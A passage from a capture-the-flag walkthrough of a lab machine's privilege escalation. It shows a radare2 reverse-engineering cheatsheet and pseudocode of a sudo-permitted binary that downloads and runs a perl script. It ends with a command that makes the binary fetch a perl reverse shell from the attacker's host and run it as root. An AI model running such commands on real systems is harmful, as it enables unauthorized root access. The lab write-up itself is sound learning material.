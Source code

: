 ![Using strings](Images/strings.png)
We found a piece of string, `perl` command and removing a file with the same name as the piece of string we found at first. We could pass a `perl` script as an argument and run the `binary` but it's still the same, exiting with the same output. 

So, we only have one option which is to decompile and do some reverse engineering on the `binary`. For this task, we'll be using `radare2` tool since it's lightweighted and it's pre-installed on Kali. Here's some mini cheatsheet for `radare2` -
```radare2
r2 -d ./binary
aaa      # Analyze the program
s main   # Seek the start of main()
pdf      # Print current function
VV       # Graphical view of current function
```

After spending hours of reading and begging ChatGPT, I was finally able to guess what the `binary` is doing. Here's a pseudocode of what `binary` is doing -
```pseudocode
if (number of arguments == 2):
	continue
else:
	exit

if (uid == 0):
	continue
else:
	exit

if (argument_list[2] == "lD------Qn")
	curl argument_list[1] -o file
	perl ./file
else:
	exit
```

So, all we need to do is write a `perl` reverse shell program on our machine, host a webserver and then run `sudo /usr/bin/binary http://my-ip/rev.pl "lD------Qn"` and we should get a reverse shell as _root_ on our netcat listener. We could use `perl` reverse shell by pentestmonkey, it can be found in `/usr/share/webshells/perl/` directory. 
![root.txt](Images/root-flag.png)


# References
1. [radare2 for dummies](https://cryptokait.com/2021/03/03/how-to-re-with-radare-when-you-know-nothing/)
2. [Investigation Walkthrough by IppSec](https://youtu.be/X5hVEuWmehk)

